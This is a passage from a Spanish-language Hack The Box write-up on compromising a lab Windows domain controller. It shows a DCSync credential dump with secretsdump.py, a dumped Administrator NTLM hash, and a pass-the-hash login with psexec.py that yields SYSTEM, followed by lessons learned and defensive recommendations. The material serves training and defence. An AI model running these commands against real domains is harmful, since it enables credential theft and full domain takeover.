

> 💡 Esos dos derechos combinados son exactamente los que necesita un controlador de dominio legítimo para replicar datos de otro — y son también los que permiten el ataque **DCSync**: solicitar al DC que "replique" las credenciales de cualquier cuenta del dominio, incluido el Administrador, sin necesidad de ejecutar código en el propio DC.

Abusamos de esos permisos con `secretsdump`:

```bash
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.129.95.180
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

Con el hash NT de Administrator, pass-the-hash con `psexec`:

```bash
psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.129.95.180 cmd.exe -hashes :823452073d75b9d1cf70ebdf86c7f98e
```



```
whoami /all
```



```
nt authority\system
```

## 5. Post-explotación y flags

```
dir C:\Users\Administrator\Desktop
```



`root.txt` (34 bytes) confirmado en el escritorio de Administrator — compromiso total del controlador de dominio. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Enumeración LDAP anónima habilitada en el DC | Puerto 389 | Filtración de nombres de usuario sin ninguna credencial |
| Página web corporativa con nombres completos de empleados | `about.html` | Permite inferir el formato de nombre de usuario de todo el personal |
| Cuenta de dominio con preautenticación Kerberos deshabilitada | `fsmith` | AS-REP Roasting: obtención de un hash crackeable sin interactuar con la cuenta |
| Contraseña débil, presente en `rockyou.txt` | Cuenta `fsmith` | Acceso autenticado al dominio tras crackear el hash |
| Credenciales de AutoLogon almacenadas en el registro | `svc_loanmgr` | Robo trivial de credenciales con acceso de lectura al registro |
| Permisos de replicación (`GetChangesAll`/`GetChanges`) sobre el dominio asignados a una cuenta de servicio | `svc_loanmgr` | Ataque **DCSync**: volcado de todos los hashes del dominio, incluido Administrator |

## Recomendaciones defensivas

- Deshabilitar la enumeración LDAP anónima en el controlador de dominio.
- No publicar nombres completos de empleados en páginas web públicas que permitan inferir el formato de usuario corporativo.
- Habilitar la preautenticación Kerberos en todas las cuentas de dominio.
- Exigir contraseñas robustas y políticas de rotación en todas las cuentas, incluidas las de servicio.
- Nunca usar AutoLogon con credenciales de dominio almacenadas en el registro; si es imprescindible, usar Credential Guard o una bóveda de credenciales.
- Auditar y restringir estrictamente qué cuentas tienen derechos de replicación (`Replicating Directory Changes` / `Replicating Directory Changes All`) sobre el dominio — solo controladores de dominio legítimos y cuentas de backup estrictamente necesarias.
- Monitorizar solicitudes de replicación DRS inusuales como indicador de un posible ataque DCSync.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
